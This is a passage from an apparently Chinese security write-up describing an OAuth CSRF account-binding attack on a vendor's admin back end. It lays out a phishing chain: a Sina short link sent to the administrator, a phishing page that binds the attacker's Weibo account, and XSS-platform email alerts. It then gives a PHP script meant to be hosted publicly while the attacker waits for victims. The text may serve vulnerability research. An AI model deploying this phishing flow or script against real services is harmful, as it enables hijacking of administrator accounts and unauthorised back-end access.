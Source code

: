   
首先经过我的观察,某厂商前后端是使用一个账号的 : )  
  
攻击思路:  
  
1. 某厂商中有一个功能某信,我们可以发送一个有害的短链接url  
某  
信给管理员,诱惑管理员打开,让管理员绑定我们的微博,然后我们登录后台  
  
1. 使用新浪短域名(降低管理员内心警戒)  
  
1. 有人访问url时是发送qq邮件到我的邮箱  
这个脚本完成以后,理想的攻击方式应该就是这样的受害者-->点击新浪短链接url-->跳转到我的钓鱼网站-->输出绑定url进行绑定-->利用xss平台发送邮件通知我-->页面显示404-->结束  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj4ELGpia2CaEeFlX7z8foQZcuiaQj6uhxk93RH93hTroMmA5bWks0P9G5QzWFzx6ayDv224XZuBZRhw/640?wx_fmt=png&from=appmsg "")  
  
  
# 0x05 简单脚本  
  
```
# a_test_oauth_csrf.php
# 然后把这个文件改一下名字,放外网,然后钓鱼等待
<?php
function curlRequest($url, $post = [], $cookie = '', $referurl = '') {
    if (!$referurl) {
        $referurl = 'https://www.a.test.com';
    }
    $header = array(
        'Content-Type:application/x-www-form-urlencoded',
        'X-Requested-With:XMLHttpRequest',
    );
    $curl = curl_init();
    curl_setopt($curl, CURLOPT_URL, $url);
    curl_setopt($curl, CURLOPT_USERAGENT, 'Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)');
    curl_setopt($curl, CURLOPT_AUTOREFERER, 1);
    curl_setopt($curl, CURLOPT_REFERER, $referurl);
    curl_setopt($curl, CURLOPT_HTTPHEADER, $header);
    curl_setopt($curl,CURLOPT_SSL_VERIFYPEER,FALSE);
    if ($post) {
        curl_setopt($curl, CURLOPT_POST, 1);
        curl_setopt($curl, CURLOPT_POSTFIELDS, http_build_query($post));
    }
    if ($cookie) {
        curl_setopt($curl, CURLOPT_COOKIE, $cookie);
    }
    curl_setopt($curl, CURLOPT_TIMEOUT, 10);
    curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
    curl_exec($curl);
    $header_data = curl_getinfo($curl);
    if (curl_errno($curl)) {
        return curl_error($curl);
    }
    curl_close($curl);
    return $header_data;
}
// 某厂商的授权url-固定写死即可
$url = 'https://api.weibo.com/oauth2/authorize?client_id=1881139527&redirect_uri=http%3A%2F%2Fwww.a.test.com%2Fusers%2Fauth%2Fweibo%2Fcallback&response_type=code&state=%257B%2522can_transfer%2522%253A%2522true%2522%257D';
// 将你新浪微博cookie写入这里
$cookie = '我的cookie可不给你们哦';
$result = curlRequest($url, [], $cookie);
// 那两个js随便找个xss平台即可
// 一个用来表示登录过期了
// 一个用来表示钓鱼成功了
```